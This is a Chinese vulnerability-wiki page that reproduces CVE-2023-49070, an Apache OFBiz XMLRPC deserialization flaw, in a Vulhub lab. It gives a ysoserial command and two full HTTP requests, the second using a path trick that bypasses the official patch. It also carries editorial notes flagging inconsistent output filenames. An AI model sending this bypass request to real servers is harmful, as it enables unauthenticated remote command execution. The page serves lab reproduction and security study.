





# Apache OfBiz 反序列化命令执行漏洞 CVE-2023-49070

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：测试18.12.09，XMLRPC可达及CommonsBeanutils1 gadget/JDK适用；Host允许值
- 证据范围：先原请求失败再认证绕过路径成功，差分说明有价值。

### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 生成touch /tmp/awesome_poc，结果文字却/tmp/success，不一致
- 应独立列当前影响范围，不以历史17.12.03简介替代
- base64-payload占位、固定长度需明确替换；补JDK/gadget前提

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Apache OFBiz 是一个非常著名的电子商务平台，是一个非常著名的开源项目，提供了创建基于最新 J2EE/XML 规范和技术标准，构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类 WEB 应用系统的框架。 OFBiz 最主要的特点是 OFBiz 提供了一整套的开发基于 Java 的 web 应用程序的组件和工具。包括实体引擎, 服务引擎, 消息引擎, 工作流引擎, 规则引擎等。

在 Apache OFBiz 17.12.03 版本及以前存在一处 XMLRPC 导致的反序列漏洞，官方于后续的版本中对相关接口进行加固修复漏洞，但修复方法存在绕过问题（CVE-2023-49070），攻击者仍然可以利用反序列化漏洞在目标服务器中执行任意命令。

Apache OFBiz 官方于 18.12.10 中彻底删除 xmlrpc 接口修复该漏洞。

参考链接：

- [https://www.openwall.com/lists/oss-security/2023/12/04/2](https://www.openwall.com/lists/oss-security/2023/12/04/2)

## 环境搭建

Vulhub 执行如下命令启动一个 Apache OfBiz 18.12.09 版本：

```shell
docker compose up -d
```

在等待数分钟后，访问 `https://your-ip:8443/accounting` 查看到登录页面，说明环境已启动成功。

如果是非本地 localhost 启动，Headers 需要包含 `Host: localhost`，否则报错：

```
ERROR MESSAGE
org.apache.ofbiz.webapp.control.RequestHandlerException: Domain xx.xx.xx.xx not accepted to prevent host header injection. You need to set host-headers-allowed property in security.properties file.
```




## 漏洞复现

漏洞复现方式与 [CVE-2020-9496](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2020-9496) 相似，只是需要绕过官方对于漏洞的补丁限制。

首先，仍然使用 [ysoserial](https://github.com/frohoff/ysoserial) 的 CommonsBeanutils1 来生成 Payload：

```
java -jar ysoserial.jar CommonsBeanutils1 "touch /tmp/awesome_poc" | base64 | tr -d "\n"
```




使用 CVE-2020-9496 中的复现方法发送数据包，已经无法成功进入 XMLRPC 的解析流程：

> Host: localhost

```http
POST /webtools/control/xmlrpc HTTP/1.1
Host: localhost
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```




把 Path 修改成 `/webtools/control/xmlrpc;/?USERNAME=&PASSWORD=&requirePasswordChange=Y` 即可绕过限制：

> Host: localhost

```http
POST /webtools/control/xmlrpc;/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: localhost
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```




进入容器中，可见 `touch /tmp/success` 已成功执行：




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
